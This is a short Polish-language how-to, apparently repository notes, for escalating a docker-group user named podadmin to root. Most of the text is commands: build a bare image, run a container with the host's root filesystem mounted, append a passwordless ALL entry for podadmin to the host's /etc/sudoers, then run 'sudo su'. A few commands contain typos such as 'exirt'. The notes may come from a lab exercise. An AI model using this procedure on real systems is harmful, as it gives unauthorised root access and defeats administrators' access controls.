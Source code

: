 # =============== MAJSTER -> user ===============

## Tworzymy w folderze domowym usera podadmin folder dajroot w którym umieszczamy skrypt

- ### mkdir /home/podadmin/dajroot
- ### cd /home/podadmin/dajroot
- ### nano dockerfile
    
    FROM dockette/wheezy
    ENV WORKDIR /dajroot
    RUN mkdir -p $WORKDIR
    VOLUME $WORKDIR
    WORKDIR $WORKDIR
    


## Budujemy skrypt w folderze
- ### docker build -t dajroot .

## Sprawdzamy, czy się zainstalował
- ### docker images

## Odpalamy container
- ### docker run -v /:/dajroot -it dajroot /bin/bash

## Będąc w kontenerze wpisujemy
- ### cd..
- ### echo "podadmin ALL=(ALL) NOPASSWD:ALL" >> /dajroot/etc/sudoers

## Patrzytmy czy w pliku sudoers jest dopisek "podadmin ALL=(ALL) NOPASSWD:ALL"
- ### cat dajroot/etc/sudoers

## Wychodzimy z containera
- ### exirt

## Robimy przejecie roota
- ### sudo su

===================
